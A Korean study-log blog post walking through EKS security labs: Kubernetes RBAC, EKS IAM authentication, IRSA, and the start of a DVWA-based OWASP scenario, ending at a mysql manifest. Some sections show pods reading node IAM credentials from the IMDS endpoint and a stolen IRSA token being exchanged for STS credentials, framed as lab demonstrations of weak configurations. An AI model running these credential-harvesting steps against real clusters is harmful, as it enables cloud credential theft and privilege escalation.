이번에는 인증 및 인가, 그리고 IRSA를 중심으로 EKS의 보안에 대해 학습해보았습니다.

kops 스터디 때에는 잘 몰랐는데, 복기하다보니 RBAC은 기본으로 깔고..

- [4-1] pro**j**ected Volume
- [4-2] AWS Load Balancer Controller IRSA 및 LB Pod mutating

위의 두 가지가 꽤나 중요한 파트를 차지하고 있었음을 알 수 있었습니다.  
Network(2주차)가 매번 뭔가 일부가 아리송하였다면  
Security는 복기하다가 이론적으로는 간단(과연 ?)해보여도,  
실제 구동방식 이해 자체가 초반에 안되서 더 어려웠던 것 같습니다.

## 그 외

1. myeks-bastion-2에 접속 시, 함께 진행할 때는 `ssh {Public IP}`로 잘 접속되는 걸 봤는데 정작 혼자 할 땐 접속이 되지않았습니다.  
   - Amazon Linux에서는 ssh ec2-user@{Public IP}로 접속해야함  
   (필요한 경우 ssh키도 포함)
   - AWS Public AMI에서 제공되는 Ubuntu AMI의 경우,  
   ubuntu@{Public IP}로 접속가능
   - 추정: 공유된 머신에 다른 설정이 이슈가 되는 것으로 추정됩니다.
   
   
2. IAM User(testuser)는 웹콘솔에서 삭제하는 것이 편리합니다.  
   - 아니면, 아래처럼 detach 한다는 느낌으로 순차적 실행합니다.  
     - list-attached-role-policies && detach-role-policy
     - list-access-keys && delete-access-key
     - delete-user
   
3. CLI로 IAM Trust Relationship 조회
   - 웹 콘솔에 굳이 들어가야하나 하고, 문득 호기심에 시도하다가 시간이 날아갔습니다.  
   - 결론: 하드코어한 파싱..  
      - `jq -r '.[].status.roleARN' | rev | cut -d '/' -f1 | rev`
      - chatGPT에게 아래와 같이 교정 받았지만, 탐탁치 않음..  
      `jq -r '.[].status.roleARN' | grep -oE '[^/]+$'`  
   

## 1. 실습 환경 배포

- 모의공격(?) 테스트를 위해 2개의 bastion 서버가 구성된 환경 배포
- p8s 및 grafana의 경우, 선택적으로 배포해도 되서 기술 생략

```bash
curl -O https://s3.ap-northeast-2.amazonaws.com/cloudformation.cloudneta.net/K8S/eks-oneclick5.yaml

# 이하 중략

# CERT_ARN(ACM)의 경우에는 /etc/profile에 환경변수 저장을 안해둬서  
# 세션이 만료되면, 다시 재설정 필요

CERT_ARN=`aws acm list-certificates --query 'CertificateSummaryList[].CertificateArn[]' --output text`
echo $CERT_ARN
```

## 2. k8s 인증/인가

- `.kube/config` 파일을 기반  
  - cluster: k8s API 서버 접속정보
  - users: API 서버에 접속하기 위한 유저 인증정보 목록
  - contexts: cluster및 user를 매핑(조합)한 정보



### 2-1. 인증/인가 실습

- 여기서는 인프라팀, 개발팀으로 각각의 ns에 유저를 생성하여 실습  

```bash
kubectl create namespace dev-team
kubectl create ns infra-team
kubectl get ns

# 네임스페이스에 서비스 어카운트 생성
kubectl create sa dev-k8s -n dev-team
kubectl create sa infra-k8s -n infra-team

# 서비스 어카운트 정보 확인
kubectl get sa -n dev-team
kubectl get sa dev-k8s -n dev-team -o yaml | yh

kubectl get sa -n infra-team
kubectl get sa infra-k8s -n infra-team -o yaml | yh

# dev-k8s 서비스 어카운트의 토큰 획득
DevTokenName=$(kubectl get sa dev-k8s -n dev-team -o jsonpath="{.secrets[0].name}")
DevToken=$(kubectl get secret -n dev-team $DevTokenName -o jsonpath="{.data.token}" | base64 -d)
echo $DevToken
```



- 각각의 YAML파일에 토큰이 있는데 이는 JWT(Bearer)토큰으로 아래에서 확인가능
  - [https://jwt.io/](https://jwt.io/)
  - 경우에 따라, Credential도 있기 때문에 취급주의



- SA 지정하여 파드 생성 후 권한 테스트

```bash
cat <<EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: dev-kubectl
  namespace: dev-team
spec:
  serviceAccountName: dev-k8s
  containers:
  - name: kubectl-pod
    image: bitnami/kubectl:1.24.10
    command: ["tail"]
    args: ["-f", "/dev/null"]
  terminationGracePeriodSeconds: 0
EOF

cat <<EOF | kubectl create -f -
apiVersion: v1
kind: Pod
metadata:
  name: infra-kubectl
  namespace: infra-team
spec:
  serviceAccountName: infra-k8s
  containers:
  - name: kubectl-pod
    image: bitnami/kubectl:1.24.10
    command: ["tail"]
    args: ["-f", "/dev/null"]
  terminationGracePeriodSeconds: 0
EOF

# 확인
kubectl get pod -o dev-kubectl -n dev-team -o yaml | grep serviceAccount
kubectl get pod -o infra-kubectl -n infra-team -o yaml | grep serviceAccount

# 파드에 기본 적용되는 SA 정보(토큰) 
kubectl exec -it dev-kubectl -n dev-team -- ls /run/secrets/kubernetes.io/serviceaccount
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/namespace
kubectl exec -it dev-kubectl -n dev-team -- cat /run/secrets/kubernetes.io/serviceaccount/ca.crt

# 각 파드 접속하여, 정보 확인 with alias
alias k1='kubectl exec -it dev-kubectl -n dev-team -- kubectl'
alias k2='kubectl exec -it infra-kubectl -n infra-team -- kubectl'

# 권한 테스트
k1 get pods # kubectl exec -it dev-kubectl -n dev-team -- kubectl get pods 와 동일한 실행 명령이다!
k1 run nginx --image nginx:1.20-alpine
k1 get pods -n kube-system

# (옵션) kubectl 실행 사용자(host 기준)가 특정 권한을 가지고 있는지 확인 [결과: no]
k1 auth can-i get pods
```





- 당연히 되지 않음. 단지 SA를 만들어서 파드에 적어넣었을 뿐
  1. Role의 부재
  2. SA와 Role의 매핑(RoleBinding)의 부재
- 아래에서 위의 두 가지를 생성

```bash
# 각 NS에 Role 생성 후 확인
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: role-dev-team
  namespace: dev-team
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF

cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: role-infra-team
  namespace: infra-team
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["*"]
EOF

kubectl describe roles role-dev-team -n dev-team

# 각 NS에 SA와 Role 매핑(RoleBinding) 생성 후 확인
cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: roleB-dev-team
  namespace: dev-team
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: role-dev-team
subjects:
- kind: ServiceAccount
  name: dev-k8s
  namespace: dev-team
EOF

cat <<EOF | kubectl create -f -
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: roleB-infra-team
  namespace: infra-team
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: role-infra-team
subjects:
- kind: ServiceAccount
  name: infra-k8s
  namespace: infra-team
EOF

kubectl describe rolebindings roleB-dev-team -n dev-team

# 권한 테스트 성공
alias k1='kubectl exec -it dev-kubectl -n dev-team -- kubectl'
alias k2='kubectl exec -it infra-kubectl -n infra-team -- kubectl'

k1 get pods 
k1 run nginx --image nginx:1.20-alpine
k1 get pods
k1 delete pods nginx
k1 get pods -n kube-system
k1 get nodes

k1 auth can-i get pods # yes
```





## 3. EKS 인증/인가

- 앞에서 k8s 인증/인가를 했다면 이제는 AWS IAM 서비스와 결합
  - 인증: AWS IAM
  - 인가: k8s RBAC
- 원활한 진행을 위해 RBAC용 krew 플러그인 설치

```bash
kubectl krew install access-matrix rbac-tool rbac-view rolesum

# 실습 NS인 default에서 액세스 매트릭스 
kubectl access-matrix --namespace default

# USER/GROUP/SA 단위의 RBAC 조회
# system:nodes == eks:node-bootstrapper
# system:bootstrappers == eks:node-bootstrapper
kubectl rbac-tool lookup system:masters

# USER/GROUP/SA 단위의 RBAC 정책 규칙 
kubectl rbac-tool policy-rules
kubectl rbac-tool policy-rules

# 해당 클러스터에서 사용 가능한 클러스터롤 조회
kubectl rbac-tool show

# 클러스터에 인증된 현재 컨텍스트의 사용자 
kubectl rbac-tool whoami

# USER/GROUP/SA 단위의 RBAC 역할 조회
kubectl rolesum aws-node -n kube-system
kubectl rolesum -k User system:kube-proxy
kubectl rolesum -k Group system:masters

# (새로운 쉘) 현재 접속한 본인의 RBAC 권한을 시각적으로 
echo -e "RBAC View Web http://$(curl -s ipinfo.io/ip):8800"
kubectl rbac-view
```











### 3-1. EKS 인증/인가 살펴보기

- STS(Security Token Service)를 기반  
- aws-cli v1.16.156부터 aws-iam-authenticator 설치 없이 get-token으로 획득 가능
  1. kubectl ~ `aws eks get-token` ~ EKS Service Endpoint 요청 구조
  2. kubectl의 Client-Go 라이브러가 Pre-Signed URL을 Tokenize하여 엔드포인트 요청 **[Credential 가득함. 유의!]**
  3. EKS API는 Webhook token authenticator에 Token Review Request  
     AWS IAM 해당 인증을 호출 완료 후, User/Role의 ARN 반환
  4. k8s RBAC 인가 처리
- EKS configmap에서 `system:masters`나 `system:authenticated`로 예상되는 그룹 정보는 노출되지 않음
  - Human Error 예방 추정
  - `kubectl rbac-tool whoami`으로 조회 가능
- (kubeconfig)v1beta1을 쓰고 있는데, 실습을 하다보면 간혹 token값 앞부분이 깨져나옴  
  - To-Do: v1(GA) 이후로 해서 테스트해봐야 함





```bash
# sts caller id의 ARN
aws sts get-caller-identity --query Arn

# kubeconfig 정보. get-token 커맨드 삽입 확인
cat ~/.kube/config | yh

# STS 임시 보안 자격 증명 토큰 요청. 시간경과 시 토큰 재발급
aws eks get-token --cluster-name $CLUSTER_NAME | jq -r '.status.token'

# tokenreview, Webhook, validatingwebhookconfigurations API 리소스 
kubectl api-resources | grep authentication
kubectl api-resources | grep Webhook
kubectl get validatingwebhookconfigurations
kubectl get validatingwebhookconfigurations eks-aws-auth-configmap-validation-webhook -o yaml | kubectl neat | yh

# aws-auth configmap
kubectl get cm -n kube-system aws-auth -o yaml | kubectl neat | yh

# EKS를 설치한 IAM User 정보
kubectl rbac-tool whoami

# system:masters, system:authenticated 그룹 정보
kubectl rbac-tool lookup system:masters
kubectl rbac-tool lookup system:authenticated
kubectl rolesum -k Group system:masters
kubectl rolesum -k Group system:authenticated

# system:masters 그룹이 사용 가능한 ClusterRole: cluster-admin
kubectl describe clusterrolebindings.rbac.authorization.k8s.io cluster-admin

# cluster-admin 의 PolicyRule: 모든 리소스 사용 가능!
kubectl describe clusterrole cluster-admin

# system:authenticated 그룹이 사용 가능한 ClusterRole
kubectl describe ClusterRole system:discovery
kubectl describe ClusterRole system:public-info-viewer
kubectl describe ClusterRole system:basic-user
kubectl describe ClusterRole eks:podsecuritypolicy:privileged
```







### 3-2. 신규 인프라 관리자용 myeks-bastion-2에 EKS 인증/인가 설정

- 기존 쉘(myeks-bastion)과 교차하여 진행: testuser 생성 및 권한 수정

```bash
##
# myeks-bastion
##

# testuser 생성 및 프로그래밍 방식 Access 권한 부여, 어드민 접속 정책 추가
# Access Key의 경우, 1회만 출력 -> 메모
aws iam create-user --user-name testuser
aws iam create-access-key --user-name testuser
aws iam attach-user-policy --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --user-name testuser

# get-call-identity ARN 
aws sts get-caller-identity --query Arn

# testuser가 접속할 myeks-bastion-2 PublicIP 확인
aws ec2 describe-instances --query "Reservations[*].Instances[*].{PublicIPAdd:PublicIpAddress,PrivateIPAdd:PrivateIpAddress,InstanceName:Tags[?Key=='Name']|[0].Value,Status:State.Name}" --filters Name=instance-state-name,Values=running --output table
```





- 현재 상태에서 testuser는 접속은 가능하지만, kubectl 불가
  - 당연하게도, 관리자 그룹(`system:masters`)과 매핑이 되지 않았기에 불가

```bash
##
# myeks-bastion-2
##

# testuser로 접속
ssh ec2-user@{myeks-bastion-2 PublicIP}

# testuser IAM 설정
aws configure

# get-call-identity ARN
aws sts get-caller-identity --query Arn

# kubectl 명령어 실행: 권한 없음
kubectl get node -v6
ls ~/.kube
```



- 다시, 원래 쉘에서 그룹 부여를 하여 권한 설정: EKS 관리자 레벨

```bash
##
# myeks-bastion
##
eksctl create iamidentitymapping --cluster $CLUSTER_NAME --username testuser --group system:masters --arn arn:aws:iam::$ACCOUNT_ID:user/testuser

# system:masters 적용 확인
# IAM 매핑 확인 시, 기존 NodeInstanceRole은 노드에 접속될 때 사용되는 IAM Role(Credential 확인 불가, 세션과 같은 느낌으로 이해)
kubectl get cm -n kube-system aws-auth -o yaml | kubectl neat | yh
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
```



- 다시, testuser에서 kubectl 명령어 실행: 권한 있음
  - 실행 전, kubeconfig 업데이트 필요

```bash
##
# myeks-bastion-2
##

# kubeconfig 업데이트(생성)
aws eks update-kubeconfig --name $CLUSTER_NAME --user-alias testuser

# kubeconfig에 system:masters 그룹 추가 확인
cat ~/.kube/config | yh

# kubectl 실행: 권한 있음
kubectl ns default
kubectl get node -v6

# rbac-tool: system:masters 그룹과 더불어 system:authenticated가 같이 설정
kubectl krew install rbac-tool && kubectl rbac-tool whoami
```

- testuser의 그룹 재설정 (system:masters -> system:authenticated)
  - 텍스트에디터로 직접 편집
  - (또는) iamidentitymapping 삭제 후, 다시 생성

```bash
##
# myeks-bastion
##

kubectl edit cm -n kube-system aws-auth
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
```



- testuser에서 kubectl 명령어 실행 **시도**: 일부 권한 없음 확인
  - config 업데이트를 하지 않아도, 적용되어 있음
  - pods 조회는 가능하지만, nodes 조회는 불가

```bash
##
# myeks-bastion-2
##

kubectl get node -v6
kubectl api-resources -v5
```





- 물론 testuser IAM 매핑을 삭제하면, 아예 권한이 없음

```bash
##
# myeks-bastion
##

# testuser IAM 맵핑 삭제
eksctl delete iamidentitymapping --cluster $CLUSTER_NAME --arn  arn:aws:iam::$ACCOUNT_ID:user/testuser

eksctl get iamidentitymapping --cluster $CLUSTER_NAME
kubectl get cm -n kube-system aws-auth -o yaml | yh
```

```bash
##
# myeks-bastion-2
##

kubectl get node -v6
kubectl api-resources -v5
```


### 3-3. (옵션) EC2 Instance Profile(IAM Role)에 맵핑된 k8s RBAC 확인

- 3-2에서 `NodeInstanceRole`을 중간에 확인
  - `system:nodes`
  - username: `system:node:{{EC2PrivateDNSName}}`
- 추가 IAM 증명이 없어도, 노드에 생성된 파드에서 IMDS로 EC2 IAM Role 사용  
  - Token 만료 전까지 이용 가능. 권한 유의





```bash
# 노드 별 hostname, sts ARN
for node in $N1 $N2 $N3; do ssh ec2-user@$node hostname; done
for node in $N1 $N2 $N3; do ssh ec2-user@$node aws sts get-caller-identity --query Arn; done

# aws-auth ConfigMap
kubectl describe configmap -n kube-system aws-auth

# IAM identity mapping
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
```

- aws-cli(v2) 파드를 추가하여, 해당 EC2 노드의 IMDS 정보 확인

```bash
cat <<EOF | kubectl create -f -
apiVersion: apps/v1
kind: Deployment
metadata:
  name: awscli-pod
spec:
  replicas: 2
  selector:
    matchLabels:
      app: awscli-pod
  template:
    metadata:
      labels:
        app: awscli-pod
    spec:
      containers:
      - name: awscli-pod
        image: amazon/aws-cli
        command: ["tail"]
        args: ["-f", "/dev/null"]
      terminationGracePeriodSeconds: 0
EOF

kubectl get pod -owide

# 파드 이름 변수 지정 후 각 파드에서 EC2 InstancePrfile(IAM Role) ARN 확인
APODNAME1=$(kubectl get pod -l app=awscli-pod -o jsonpath={.items[0].metadata.name})
APODNAME2=$(kubectl get pod -l app=awscli-pod -o jsonpath={.items[1].metadata.name})
echo $APODNAME1, $APODNAME2

kubectl exec -it $APODNAME1 -- aws sts get-caller-identity --query Arn
kubectl exec -it $APODNAME2 -- aws sts get-caller-identity --query Arn

# 추가 IAM 증명이 없어도, IMDS로 EC2 IAM Role 사용: 권한 유의
kubectl exec -it $APODNAME1 -- aws ec2 describe-instances --region ap-northeast-2 --output table --no-cli-pager
kubectl exec -it $APODNAME2 -- aws ec2 describe-vpcs --region ap-northeast-2 --output table --no-cli-pager

# aws-cli 파드에 쉘 접속 후, EC2 메타데이터 확인
kubectl exec -it $APODNAME1 -- bash
curl -s http://169.254.169.254/ -v

# Token 요청 
curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" ; echo
curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" ; echo

# Token을 이용한 IMDSv2 사용
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
echo $TOKEN
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/ ; echo
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/ ; echo
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/ ; echo

# 위에서 출력된 IAM Role을 아래 입력 후 확인
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1DC6Y2GRDAJHK

# 파드 쉘 종료
exit
```





- aws-cli 파드에 kubeconfig를 통한 mapRoles 정보 생성

```bash
# node 의 IAM Role ARN을 변수로 지정
eksctl get iamidentitymapping --cluster $CLUSTER_NAME
NODE_ROLE=eksctl-myeks-nodegroup-ng1-NodeInstanceRole-{IAM Role ARN}

# awscli 파드에서 kubeconfig 정보 생성
# 확인 시, 실행 인자에 role도 추가되었음
kubectl exec -it $APODNAME1 -- aws eks update-kubeconfig --name $CLUSTER_NAME --role-arn $NODE_ROLE
kubectl exec -it $APODNAME1 -- cat /root/.kube/config | yh

kubectl exec -it $APODNAME2 -- aws eks update-kubeconfig --name $CLUSTER_NAME --role-arn $NODE_ROLE
kubectl exec -it $APODNAME2 -- cat /root/.kube/config | yh
```





- (보너스)노드에 SSH 접속, kubeconfig 파일 생성 후 kubectl 실행  
  - 중간에 안되서 중단 했었지만, 복기하고 나니 어디가 문제인지 파악: To-Do

```bash
ssh ec2-user@$N1
sudo su -

# kubectl 설치
curl --silent --location "https://github.com/weaveworks/eksctl/releases/latest/download/eksctl_$(uname -s)_amd64.tar.gz" | tar xz -C /tmp
mv /tmp/eksctl /usr/local/bin
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl

# 정상 출력
aws sts get-caller-identity --query Arn

# Token 요청: 미리 메모
aws eks get-token --cluster-name myeks | jq -r '.status.token'

# 위의 토큰과 앞에서 출력된 kubeconfig를 가져와서 kubeconfig 생성
mkdir ~/.kube
cat << EOF > ~/.kube/config
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tL{생략}S0tCg==
    server: https://0A9ACECDBF06CF1E13D3E0F19A0F0D2C.sk1.ap-northeast-2.eks.amazonaws.com
  name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
contexts:
- context:
    cluster: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
    user: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
  name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
current-context: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
kind: Config
preferences: {}
users:
- name: arn:aws:eks:ap-northeast-2:911283464785:cluster/myeks
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      args:
      - --region
      - ap-northeast-2
      - eks
      - get-token
      - --cluster-name
      - myeks
      - --output
      - json
      - --role
      - eksctl-myeks-nodegroup-ng1-NodeInstanceRole-1DC6Y2GRDAJHK
      command: aws
EOF

# kubectl 시도
kubectl get node -v6

# kubeconfig 삭제
rm -rf .kube
```

## 4. EKS IRSA

- 위에서 경험했듯이 EC2 Instance Profile은 편리하나, 보안상 취약(최소 권한 부여 원칙)
- IAM Roles for Service Accounts: 사용자 관리형 서비스 계정
- 실습 환경 구성 시, 아래의 스크립트가 포함  
  - `eksctl create cluster --name $CLUSTER_NAME ... --external-dns-access --full-ecr-access --asg-access`

### 4-1. `projected' Volume

- k8s의 projected Volume을 활용하여, 아래의 volume source를 하나의 디렉토리로 통합
  - Secret: user, pass
  - ConfigMap
  - Downward API
  - ServiceAccountToken
- 원문: [https://kubernetes.io/docs/tasks/configure-pod-container/configure-projected-volume-storage/](https://kubernetes.io/docs/tasks/configure-pod-container/configure-projected-volume-storage/)

```bash
# Create the Secrets:
## Create files containing the username and password:
echo -n "admin" > ./username.txt
echo -n "1f2d1e2e67df" > ./password.txt

## Package these files into secrets:
kubectl create secret generic user --from-file=./username.txt
kubectl create secret generic pass --from-file=./password.txt

# 파드 생성
kubectl apply -f https://k8s.io/examples/pods/storage/projected.yaml

# 파드 확인: projected 라벨
kubectl get pod test-projected-volume -o yaml | kubectl neat | yh

# secret
kubectl exec -it test-projected-volume -- ls /projected-volume/
kubectl exec -it test-projected-volume -- cat /projected-volume/username.txt ;echo
kubectl exec -it test-projected-volume -- cat /projected-volume/password.txt ;echo

# 삭제
kubectl delete pod test-projected-volume && kubectl delete secret user pass
```



### 4-2. IRSA 실습

- 개념  
  - MutatingWebhook: 사용자가 요청한 request에 대해 관리자가 임의로 값을 변경  
    - `kubectl get validatingwebhookconfigurations`
  - ValidatingWebhook: 사용자가 요청한 request에 대해 관리자가 허용 차단  
    - `kubectl get mutatingwebhookconfigurations`

- 실습1. CloudTrail 이벤트 ListBucket을 통한, Access Denied 확인  
  - 아래 실행 후, CloudTrail 이벤트 확인 [AWS 링크](https://ap-northeast-2.console.aws.amazon.com/cloudtrail/home?region=ap-northeast-2#/events?EventName=ListBuckets)  
  - `userIdentity`

```bash
# 파드1 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: eks-iam-test1
spec:
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      args: ['s3', 'ls']
  restartPolicy: Never
  automountServiceAccountToken: false
EOF

# 확인
kubectl get pod
kubectl describe pod

# 로그 확인
kubectl logs eks-iam-test1

# 파드1 삭제
kubectl delete pod eks-iam-test1
```




- 실습2. k8s SA & JWT token
  - SA 생성 시, k8s secret에 JWT token이 자동 생성
  - EKS IdP(OpentID Connect Provider) 주소: k8s가 발급한 Token 유효 검증

```bash
# 파드2 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: eks-iam-test2
spec:
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      command: ['sleep', '36000']
  restartPolicy: Never
EOF

kubectl get pod
kubectl describe pod

# aws 서비스 사용 시도
kubectl exec -it eks-iam-test2 -- aws s3 ls

# 서비스 어카운트 토큰 
SA_TOKEN=$(kubectl exec -it eks-iam-test2 -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
echo $SA_TOKEN

# jwt 혹은 JWT 웹 사이트 이용
jwt decode $SA_TOKEN --json --iso8601

# 파드2 삭제
kubectl delete pod eks-iam-test2
```



- 실습3. amazon-eks-pod-identity-webhook을 통한 파드 IAM access 주입(mutating pods)
  - 아래의 예제에서는 EKS 상의 **LB Controller**가 AWS 서비스에 접근하여 LB를 제어  
    - 따라서 LB Controller가 이용하는 SA에도 관련 IAM Role을 주입  
  - LB Controller는 kube-system Namespace에서 동작 & LB Controller SA 이용
  - Webhook이 LB Controller Pod spec에 정보를 주입, 변경(mutating)
  - 해당 Trust Relationship에서는 인증방법(`sts:AssumeRoleWithWebIdentity`)이 기재  
    - JWT Token 내 포함되야하는 Claim 조건1: `aud`는 `sts.amazonaws.com`
    - JWT Token 내 포함되야하는 Claim 조건2: `sub`는 `system:serviceaccount:kube-system:aws-load-balancer-controller`
  - OIDC Discovery end-point?  
    - OpenID Connect Discovery RFC is the specification that defines the structure and content of the OIDC .well-known end-point. [OPEN BANKING](https://directory.openbanking.org.uk/obieservicedesk/s/article/OIDC-Discovery)
  - 참고: [Ssup2 Blog](https://ssup2.github.io/theory_analysis/AWS_EKS_Service_Account_IAM_Role/)

```bash
# eksctl create iamserviceaccount: SA & IAM role & trust policy 동시 생성
# CloudFormation Stack -> IAM Role 확인 가능
eksctl create iamserviceaccount \
  --name my-sa \
  --namespace default \
  --cluster $CLUSTER_NAME \
  --approve \
  --attach-policy-arn $(aws iam list-policies --query 'Policies[?PolicyName==`AmazonS3ReadOnlyAccess`].Arn' --output text)

# aws-load-balancer-controller IRSA의 동작 수행을 예상해야 함
eksctl get iamserviceaccount --cluster $CLUSTER_NAME

kubectl get sa
kubectl describe sa my-sa

## SA를 기반으로한 신규 파드 생성
# 파드3번 생성
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: eks-iam-test3
spec:
  serviceAccountName: my-sa
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      command: ['sleep', '36000']
  restartPolicy: Never
EOF

# 해당 SA를 파드가 사용 시 mutatingwebhook으로 Env,Volume 추가함
kubectl get mutatingwebhookconfigurations pod-identity-webhook -o yaml | kubectl neat | yh

## 파드 생성 yaml에 새로운 내용 추가 확인
# Pod Identity Webhook은 mutating webhook을 통해 Environment 및 1개의 Projected 볼륨 추가
# Environment.{AWS_ROLE_ARN | AWS_WEB_IDENTITY_TOKEN_FILE}
# Volume.aws-iam-token
kubectl get pod eks-iam-test3
kubectl describe pod eks-iam-test3

## 파드에서 aws-cli 사용
# 몇 가지는 구동이 안되었는데, 아직 이해가 부족하여 추후에 다시 확인 필요 (To-Do)
# VPC의 경우, 권한이 없어서 안되는 것으로 추측
eksctl get iamserviceaccount --cluster $CLUSTER_NAME
kubectl exec -it eks-iam-test3 -- aws sts get-caller-identity --query Arn\
kubectl exec -it eks-iam-test3 -- aws s3 ls
kubectl exec -it eks-iam-test3 -- aws ec2 describe-instances --region ap-northeast-2
kubectl exec -it eks-iam-test3 -- aws ec2 describe-vpcs --region ap-northeast-2

# 파드에 볼륨 마운트 2개 확인: aws-iam-token
kubectl get pod eks-iam-test3 -o json | jq -r '.spec.containers | .[].volumeMounts'

# aws-iam-token 볼륨 정보 확인 : JWT 토큰이 담겨져있고, exp, aud 속성이 추가되어 있음
kubectl get pod eks-iam-test3 -o json | jq -r '.spec.volumes[] | select(.name=="aws-iam-token")'

# API 리소스: mutatingwebhookconfigurations, validatingwebhookconfigurations
kubectl api-resources |grep hook
kubectl get MutatingWebhookConfiguration
kubectl describe MutatingWebhookConfiguration pod-identity-webhook 
kubectl get MutatingWebhookConfiguration pod-identity-webhook -o yaml | yh

# AWS_WEB_IDENTITY_TOKEN_FILE 확인
IAM_TOKEN=$(kubectl exec -it eks-iam-test3 -- cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
echo $IAM_TOKEN

# Discovery Endpoint 접근
IDP=$(aws eks describe-cluster --name myeks --query cluster.identity.oidc.issuer --output text)
curl -s $IDP/.well-known/openid-configuration | jq -r '.'
curl -s $IDP/keys | jq -r '.' # 공개키가 포함된 JWKS 필드
```











- 실습 4. IRSA를 가장 취약하게 사용하는 방법
  - 정보 탈취 시 키/토큰 발급 악용 가능.  
    - 라이브 서비스로는 시도 금물
  - 위의 실습 3에 바로 이어서 진행

```bash
# AWS_WEB_IDENTITY_TOKEN_FILE 토큰 값 변수 지정
IAM_TOKEN=$(kubectl exec -it eks-iam-test3 -- cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token)
echo $IAM_TOKEN

# ROLE ARN 확인 후 변수 직접 지정
eksctl get iamserviceaccount --cluster $CLUSTER_NAME
ROLE_ARN=arn:aws:iam::911283464785:role/eksctl-myeks-addon-iamserviceaccount-default-Role1-{arn}

# assume-role-with-web-identity STS 임시자격증명 발급 요청
aws sts assume-role-with-web-identity --role-arn $ROLE_ARN --role-session-name mykey --web-identity-token $IAM_TOKEN | jq

# 파드 삭제
kubectl delete pod eks-iam-test3
```

## 5. OWAPS k8s Top 10

- 실습에서는 세 가지 시나리오로 k8s 보안위협 체감을 목표로 진행
- 마지막 5-3 실습의 경우 기존 kubeconfig를 삭제하기 때문에  
  cloudformation stack 삭제 시, 수동 작업 필요할 수 있음

### 5-1. 실습1: EKS pod가 IMDS API를 악용하는 시나리오

- DVWA 활용: mysql, dvwa, ingress  
  - 배포 후 웹에서 확인까지 대기 시간 소요



```bash
# mysql 배포
cat <<EOT > mysql.yaml
apiVersion: v1
kind: Secret
metadata:
  name: dvwa-secrets
type: Opaque
data:
  # s3r00tpa55
  ROOT_PASSWORD: czNyMDB0cGE1NQ==
  # dvwa
  DVWA_USERNAME: ZHZ3YQ==
  # p@ssword
  DVWA_PASSWORD: cEBzc3dvcmQ=
  # dvwa
  DVWA_DATABASE: ZHZ3YQ==
---
apiVersion: v1
kind: Service
metadata:
  name: dvwa-mysql-service
spec:
  selector:
    app: dvwa-mysql
    tier: backend
  ports:
    - protocol: TCP
      port: 3306
      targetPort: 3306
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: dvwa-mysql
spec:
  replicas: 1
  selector:
    matchLabels:
      app: dvwa-mysql
      tier: backend
  template:
    metadata:
      labels:
        app: dvwa-mysql
        tier: backend
    spec:
      containers:
        - name: mysql
          image: mariadb:10.1
          resources:
            requests:
              cpu: "0.3"
              memory: 256Mi
            limits:
              cpu: "0.3"
              memory: 256Mi
          ports:
            - containerPort: 3306
          env:
            - name: MYSQL_ROOT_PASSWORD
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: ROOT_PASSWORD
            - name: MYSQL_USER
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_USERNAME
            - name: MYSQL_PASSWORD
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_PASSWORD
            - name: MYSQL_DATABASE
              valueFrom:
                secretKeyRef:
                  name: dvwa-secrets
                  key: DVWA_DATABASE
EOT
